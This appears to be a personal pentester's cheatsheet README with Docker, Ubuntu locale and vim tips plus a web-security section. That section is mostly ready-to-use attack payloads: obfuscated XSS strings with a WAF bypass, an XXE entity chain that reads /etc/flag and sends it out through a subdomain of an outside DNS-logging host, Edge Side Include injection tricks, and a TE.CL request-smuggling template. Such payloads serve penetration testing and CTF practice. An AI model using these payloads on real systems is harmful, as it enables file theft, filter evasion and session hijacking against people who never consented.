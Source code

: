 
# ahp_cheatsheet

### Contents
- [Burp Suite Professional](#burp-suite-professional)
- [Docker](#docker)
- [Ubuntu](#ubuntu)
- [Web Applications Security](#web-applications-security)
   + [XSS](#xss) 
   + [XXE](#xxe)
   + [ESI](#esi)
   + [Request Smuggling](#request-smuggling)
- [/dev/null](#devnull)

## Burp Suite Professional
### Running own collaborator:  
`java -Xms10m -Xmx200m -XX:GCTimeRatio=19 -jar burp.jar --collaborator-server`

## Docker
### Run from _Dockerfile_ in directory:  
```docker build -t name .```


## Ubuntu
### Setup polish locales
Show locales:  
`locale -a`

Show default locales:  
`cat /etc/default/locale `

Install polish locale:  
`sudo locale-gen pl_PL.utf8`

Setup locales:  
`update-locale LANG=pl_PL.utf8`

## Web Applications Security
### XSS
Some helpful payloads caught in the wild
```html
<svG x=1 onload=(co\u006efirm)``//
<embed src=//14.rs>
<marquee loop=1 width=0 onfinish=confirm(1)>
<marquee/onstart=alert(1)>
```

### XXE  
#### Exfiltrate in subdomain name:  
dtd file without .dtd extension _(test.html)_:  
```xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.b0f4f2d1d89d4ec413ad.d.zhack.ca'>">
%eval;
%exfiltrate;
```  
Injection:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///tmp/test.html"> %xxe;]>
```  
http://dnsbin.zhack.ca/  
### ESI 
*Edge Side Include Injection*    
WAF'alike bypass:
```html
<svg<!--esi--> onload=aler<!--esi-->t<!--esi-->``
```
```html
he<!--esi-->llo -> hello 
but
he<!--esx-->llo isn't modified 
you have ESI injection
```
```xml
<esi:include src="/anypage.html" dca="none" />
```
 - https://twitter.com/alxbrsn/status/981256374230319112
 - https://t.co/XRxIalWcng?amp=1 
 - https://t.co/vzRIo3RuaR?amp=1
 - https://www.slideshare.net/cisoplatform7/edge-side-include-injection-abusing-caching-servers-into-ssrf-and-transparent-session-hijacking
 
 ### Request Smuggling  
 TE.CL + Hackvertor  
 *(disable “Update Content-Length” in Repeater && “Auto Update Content Length” in Hackvertor Settings)*  
 ```
 POST / HTTP/1.1
Host: abc.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

<@chunked_dec2hex_4><@get_var_3 /><@/chunked_dec2hex_4>
<@set_var_1><@length_2>GPOST / HTTP/1.1
Host: abc.com
Content-Length: 15

x=1<@/length_2><@/set_var_1>
0
```

## /dev/null
### nc permament 'web-server'
```sh
while true; do 
  echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 1500 -q 1
done
```

### vim dark background
```
:set background=dark
```
permanently:
```
echo 'set background=dark' >> $HOME/.vimrc
```

